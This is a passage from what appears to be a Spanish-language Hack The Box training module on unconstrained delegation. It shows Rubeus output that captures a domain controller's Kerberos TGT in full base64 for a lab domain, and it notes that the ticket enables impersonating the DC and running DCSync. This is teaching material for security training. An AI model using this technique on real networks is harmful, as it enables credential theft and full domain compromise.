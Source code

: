 ```powershell
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5

```

![](https://academy.hackthebox.com/storage/modules/176/A11/DCTGT.png)

Podemos usar este TGT para la autenticación dentro del dominio, convirtiéndose en el controlador de dominio. A partir de ahí, DCSYNC es un ataque obvio (entre otros).

Una forma de usar el TGT mencionado es a través de Rubeo, como sigue.

Ataques coaccionados y delegación sin restricciones
